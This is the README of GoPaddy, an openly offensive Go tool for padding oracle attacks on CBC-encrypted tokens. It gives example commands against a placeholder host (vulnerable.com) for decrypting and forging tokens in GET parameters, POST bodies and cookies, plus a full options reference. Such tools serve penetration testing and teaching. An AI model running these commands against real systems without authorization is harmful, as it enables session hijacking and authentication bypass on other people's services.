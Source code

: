 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.<br>
**Supports both encryption and decryption** of arbitrary length data and tokens.<br>
For more info about this attack vector see: https://en.wikipedia.org/wiki/Padding_oracle_attack

![demo](demo.gif)


### Installation/Update
```console
go get -u github.com/glebarez/GoPaddy
```

### Examples
- Decrypt tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Decrypt tokens in GET parameters (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -e lhex "2a7bc39262b122e58b13a95de49677b056c41a577f9d6904b921c0b0763c2cf3"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Encrypt token in GET parameter
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc "EncryptMe"
```

- Encrypt token in GET parameter (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc -e lhex "EncryptMe"
```

### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only successfully processed values will be written to redirection target. <br>
You can supply (multiple) input values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [INPUT]
```

INPUT:

	In decrypt mode:
	the encoded (as plaintext) value of valid cipher, whose value is to be decrypted
	if not passed, GoPaddy will use STDIN, reading ciphers line by line
	The provided cipher must be encoded as specified in -e and -r options.

	In encrypt mode:
	the plaintext to be encrypted
	if not passed, GoPaddy will use STDIN, reading plaintexts line by line

	

OPTIONS:

-u

	Vulnerable URL (one that produces padding errors).
    Use $ character to define cipher placeholder for GET request.
	Example:
    	if URL is "http://vulnerable.com/?parameter=$"
		then HTTP request will be sent as "http://example.com/?parameter=payload"
		the payload will be filled-in as a cipher, encoded using 
		specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
    HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
    Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-enc

    Encrypt mode
-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP requests.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
    This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
    based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8u
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP

-nologo

	Don't show logo. Useful when GoPaddy is used in tool chaining and called many times.
